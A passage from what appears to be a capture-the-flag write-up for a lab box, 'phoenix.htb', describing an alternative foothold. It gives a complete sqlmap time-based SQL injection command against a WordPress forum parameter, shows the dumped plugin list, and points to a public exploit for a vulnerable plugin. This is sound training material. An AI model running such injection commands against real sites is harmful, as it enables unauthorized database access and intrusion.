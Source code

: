 

## Beyond Root - Alternative Path

The entire foothold step for this box relies on getting into WordPress
so that I can see the vulnerable plugin and use it to get RCE. And while
the intended path is to use the SQL injection to get the credentials and
secrets necessary to log in, it's also possible to just read the plugins
list from the database:



    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_options -C option_value --where "option_name = '
    active_plugins'" --dump --batch
    ...[snip]...
    Database: wordpress
    Table: wp_options
    [1 entry]
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | option_value|
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | a:9:{i:0;s:45:"accordion-slider-gallery/accordion-slider.php";i:1;s:25:"adminimize/adminimize.php";i:2;s:31:"asgaros-forum/asgaros-forum.php";i:3;s:43:"download-from-files/download-from-files.php";i:4;s:67:"miniorange-2-factor-authentication/miniorange_2_factor_settings.php";i:5;s:47:"photo-gallery-builder/photo-gallery-builder.php";i:6;s:29:"pie-register/pie-register.php";i:7;s:45:"simple-local-avatars/simple-local-avatars.php";i:8;s:38:"timeline-event-history/timeline-wp.php";} |
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+



With this list, it's possible see the `download-from-files` is
installed, and find the public exploit, skipping the hash crack and the
2FA computation.





